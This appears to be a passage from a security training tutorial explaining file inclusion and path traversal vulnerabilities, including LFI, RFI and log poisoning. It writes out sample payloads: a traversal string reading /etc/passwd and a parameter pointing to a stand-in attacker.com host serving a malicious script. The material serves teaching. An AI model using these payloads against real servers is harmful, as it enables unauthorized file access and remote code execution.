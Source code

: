 For example, the application below includes a file based on user input.Â 

![Vulnerable application homepage](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/351e3ca1e5071b199ae7e5078b4fee70.png)  

If this input is not correctly validated and sanitized, an attacker might exploit the vulnerable parameter to include malicious files or access sensitive files on the server. In this case, the attacker could view the contents of the server'sÂ **passwd**Â file.

![Vulnerable application a basic file inclusion payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/53daf7efe0faff4ac5fadc3c410ecb64.png)  

In short, file inclusion and path traversal vulnerabilities arise when user inputs are not properly sanitized or validated. Since attackers can inject malicious payloads to log filesÂ `/var/log/apache2/access.log`Â and manipulate file paths to execute the logged payload, an attacker can achieve remote code execution. An attacker may also read configuration files that containÂ sensitive information, like database credentials, if the application returns the file in plaintext. Lastly,Â insufficient error handling may also reveal system paths or file structures, providing clues to attackers about potential targets for path traversal or file inclusion attacks.

# File Inclusion Types
---

#### Basics of File Inclusion

A traversal string, commonly seen asÂ `../`, is used in path traversal attacks to navigate through the directory structure of a file system. It's essentially a way to move up one directory level. Traversal strings are used to access files outside the intended directory.

Relative pathing refers to locating files based on the current directory. For example,Â `include('./folder/file.php')`Â implies thatÂ `file.php`Â is located inside a folder namedÂ `folder`, which is in the same directory as the executing script.

Absolute pathing involves specifying the complete path starting from the root directory. For example,Â `/var/www/html/folder/file.php`Â is an absolute path.

#### Remote File Inclusion

Remote File Inclusion, orÂ RFI, is a vulnerability that allows attackers to include remote files, often through input manipulation. This can lead to the execution of malicious scripts or code on the server.

Typically,Â RFIÂ occurs in applications that dynamically include external files or scripts. Attackers can manipulate parameters in a request to point to external malicious files.Â For example, if a web application uses a URL in a GET parameter likeÂ `include.php?page=http://attacker.com/exploit.php`, an attacker can replace the URL with a path to a malicious script.

#### Local File Inclusion

Local File Inclusion, orÂ LFI, typically occurs when an attacker exploits vulnerable input fields to access or execute files on the server.Â Attackers usually exploit poorly sanitized input fields to manipulate file paths, aiming to access files outside the intended directory.Â For example, using a traversal string,Â an attacker might access sensitive files likeÂ `include.php?page=../../../../etc/passwd`.

WhileÂ LFIÂ primarily leads to unauthorized file access, it can escalate toÂ RCE. This can occur if the attacker can upload or inject executable code into a file that is later included or executed by the server.Â Techniques such as log poisoning, which means injecting code into log files and then including those log files, are examples of howÂ LFIÂ can lead toÂ RCE.
